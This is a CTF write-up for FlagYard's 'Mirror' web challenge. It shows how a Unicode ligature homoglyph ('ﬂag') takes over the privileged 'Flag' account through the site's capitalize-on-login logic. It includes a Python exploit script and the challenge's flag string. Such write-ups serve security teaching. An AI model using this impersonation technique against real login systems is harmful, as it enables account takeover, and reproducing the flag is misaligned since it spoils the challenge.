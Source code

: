 ```yaml
---
layout: post
title: "FlagYard Mirror Web Challenge"
categories: [CTF Writeup, Web Exploitation]
tags: [FlagYard Writeup, Mirror Challenge, Web Exploitation]
description: "Step-by-Step Writeup for FlagYard's Mirror Web Challenge"
---
```


# Challenge Overview
This writeup provides an automated & manual solution to the "**Mirror**" challenge, which is worth 200 points in the web category on the FlagYard platform. The challenge involves exploiting the login system of the website to extract the flag from `flag.txt`.

![Mirror Challenge](https://i.ibb.co/QfyDVf5/mirror-1.png)

# Application Functionality
The application provides `sign_up`, `account`, and `login` endpoints for account management. Here's how it works:

## Sign-Up:
Users can create an account by submitting a username and password. The password is hashed using MD5, and the username is converted to lowercase before being stored in the database. If the username is taken, an error is shown; otherwise, the user is redirected to the login page.

![Sign-Up page](https://i.ibb.co/QpT3Bcj/mirror-2-signup.png)

## Log-In:
Users log in with their credentials, and if valid, the username is stored in the session with the first letter capitalized and the rest is converted to lower case (e.g., fLag becomes Flag).

![Log-In page](https://i.ibb.co/n001xK3/mirror-1-login.png)

```
if logged_in:
    session['user'] = logged_in['username'].capitalize()
    return redirect(url_for('account'))
```

## Account:
The account dashboard displays the flag.

![Account](https://i.ibb.co/82HzhRH/mirror-3-account.png)

# Exploitation Plan
Now if you take a look closely in the `app.py`:

```
        if user == 'Flag':
            return render_template('account.html', user=user, secret=open('flag.txt').read())
        return render_template('account.html', user=user)
    return redirect('/login')
```

This code means that the application prints the flag in `account.html`, but in order to get the flag we should have the user as `Flag`. But, we cannot enter the user `Flag` or `flag` as it is already registered, and we don't know it's password.

To get the username as `Flag`, we will be using **Homologyphs** in the username.

> **Homologyph:** A homoglyph is a character or letter that looks similar to another character or letter, but has a different meaning. For example, the letter "O" looks similar to the number "0", and the uppercase "I" looks similar to the lowercase "l" in a sans serif font.

So that means we have to use the homologyph of `f` or more letters? Yes! That's right.

In this case we will be using the homologyph of `fl` which I found from this [Website](https://www.compart.com/en/unicode/U+FB02). You can also find variety of homologyphs from this [GitHub Repo](https://github.com/codebox/homoglyph/blob/master/raw_data/chars.txt).

![Homologyph of fl](https://i.ibb.co/gjxNSx1/mirror-5-homologyph.png)

## Exploitation:

1. Firstly, go the the `sign_up` endpoint and register a new user with the `ﬂag` username.
The `ﬂ` used is a homologyph of `fl`.
2. Enter any password, it does not matters.
3. Now go to the `login` page and log-in with the same user and password entered before.
4. You will be prompted to the `account` page where the flag will be displayed :D

![Flag Found](https://i.ibb.co/GvzqKnv/mirror-4-flag.png)

**Flag:** `FlagY{a465936087fffb0eac1029fc61064d48}`

## Exploit Automation:
Here's the python script to automate the process!
```
import requests


BASE_URL = "http://url.playat.flagyard.com"  # Replace with the actual URL
# Do not add a slash (/) after the URL!

USERNAME = "ﬂag"  # Homoglyph for 'flag'
PASSWORD = "password123"  # Dummy password

def register():
    """Registers a new user with the homoglyph username."""
    url = f"{BASE_URL}/sign_up"
    data = {"username": USERNAME, "password": PASSWORD}
    response = requests.post(url, data=data)
    if response.status_code == 200:
        print("[+] Registration successful.")
    else:
        print("[-] Registration failed.")
        print(response.text)

def login():
    """Logs in with the homoglyph username and retrieves the flag."""
    url = f"{BASE_URL}/login"
    data = {"username": USERNAME, "password": PASSWORD}
    response = requests.post(url, data=data)
    
    if response.status_code == 200 and "Set-Cookie" in response.headers:
        print("[+] Login successful.")
        cookies = response.cookies
        return cookies
    else:
        print("[-] Login failed.")
        print(response.text)
        return None

def get_flag(cookies):
    """Accesses the account page to retrieve the flag."""
    url = f"{BASE_URL}/account"
    response = requests.get(url, cookies=cookies)
    
    if response.status_code == 200 and "Flag" in response.text:
        print("[+] Flag found!")
        flag_start = response.text.find("Flag")
        flag_end = response.text.find("</", flag_start)
        print("Flag:", response.text[flag_start:flag_end])
    else:
        print("[-] Failed to retrieve flag.")
        print(response.text)

if __name__ == "__main__":
    print("[*] Starting exploitation...")
    register()
    cookies = login()
    if cookies:
        get_flag(cookies)
```

---

Happy Hunting! Follow me on [Twitter/X](https://twitter.com/an0nbil) or connect to me on [LinkedIn](https://www.linkedin.com/in/bilal-sec/)!
